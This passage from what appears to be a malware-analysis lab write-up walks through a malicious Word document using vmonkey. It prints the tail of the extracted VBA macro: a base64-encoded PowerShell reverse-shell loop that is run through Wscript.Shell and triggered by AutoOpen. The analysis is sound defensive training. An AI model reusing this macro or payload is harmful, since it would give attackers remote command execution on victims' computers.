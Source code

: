 ``` sh
        Str = Str + "Tskc3RyZWFtID0gJGNsaWVudC5HZXRTdHJlYW0oKTtbYnl0ZVt"
        Str = Str + "dXSRieXRlcyA9IDAuLjY1NTM1fCV7MH07d2hpbGUoKCRpID0gJ"
        Str = Str + "HN0cmVhbS5SZWFkKCRieXRlcywgMCwgJGJ5dGVzLkxlbmd0aCk"
        Str = Str + "pIC1uZSAwKXs7JGRhdGEgPSAoTmV3LU9iamVjdCAtVHlwZU5hb"
        Str = Str + "WUgU3lzdGVtLlRleHQuQVNDSUlFbmNvZGluZykuR2V0U3RyaW5"
        Str = Str + "nKCRieXRlcywwLCAkaSk7JHNlbmRiYWNrID0gKGlleCAkZGF0Y"
        Str = Str + "SAyPiYxIHwgT3V0LVN0cmluZyApOyRzZW5kYmFjazIgPSAkc2V"
        Str = Str + "uZGJhY2sgKyAiUFMgIiArIChwd2QpLlBhdGggKyAiPiAiOyRzZ"
        Str = Str + "W5kYnl0ZSA9IChbdGV4dC5lbmNvZGluZ106OkFTQ0lJKS5HZXR"
        Str = Str + "CeXRlcygkc2VuZGJhY2syKTskc3RyZWFtLldyaXRlKCRzZW5kY"
        Str = Str + "nl0ZSwwLCRzZW5kYnl0ZS5MZW5ndGgpOyRzdHJlYW0uRmx1c2g"
        Str = Str + "oKX07JGNsaWVudC5DbG9zZSgp"

        CreateObject("Wscript.Shell").Run Str
End Sub
```

Now we successfully extracted the VBA script and got an idea of its capabilities, we can use `vmonkey <document>` to analyze and emulate the behavior of malicious macros in Microsoft Office documents.

``` sh
remnux@thm-remnux:~/worddoc$ vmonkey suspicious.doc 
 _    ___                 __  ___            __             
| |  / (_)___  ___  _____/  |/  /___  ____  / /_____  __  __
| | / / / __ \/ _ \/ ___/ /|_/ / __ \/ __ \/ //_/ _ \/ / / /
| |/ / / /_/ /  __/ /  / /  / / /_/ / / / / ,< /  __/ /_/ / 
|___/_/ .___/\___/_/  /_/  /_/\____/_/ /_/_/|_|\___/\__, /  
     /_/                                           /____/   
vmonkey 0.08 - https://github.com/decalage2/ViperMonkey
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/ViperMonkey/issues

===============================================================================
FILE: suspicious.doc
INFO     Starting emulation...
INFO     Emulating an Office (VBA) file.
INFO     Reading document metadata...
Traceback (most recent call last):
  File "/opt/vipermonkey/src/vipermonkey/vipermonkey/export_all_excel_sheets.py", line 15, in <module>
    from unotools import Socket, connect
ModuleNotFoundError: No module named 'unotools'
ERROR    Running export_all_excel_sheets.py failed. Command '['python3', '/opt/vipermonkey/src/vipermonkey/vipermonkey/export_all_excel_sheets.py', '/tmp/tmp_excel_file_1428744234']' returned non-zero exit status 1
ERROR    Reading in file as Excel with xlrd failed. Can't find workbook in OLE2 compound document
INFO     Saving dropped analysis artifacts in .//suspicious.doc_artifacts/
INFO     Parsing VB...
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file:  - OLE stream: u'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas 
in file:  - OLE stream: u'Macros/VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
-------------------------------------------------------------------------------
VBA CODE (with long lines collapsed):
Sub AutoOpen()
        AutoOpenMacro
End Sub
...
```